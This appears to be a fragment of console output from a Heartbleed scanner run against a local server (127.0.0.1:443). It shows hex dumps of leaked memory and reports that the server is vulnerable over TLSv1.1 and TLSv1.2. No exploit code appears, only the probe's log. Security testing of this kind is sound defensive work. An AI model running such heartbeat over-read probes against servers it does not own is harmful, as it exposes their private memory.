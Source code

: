 ```bash
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.1
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.1
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 02 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.2
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.2
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 03 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
```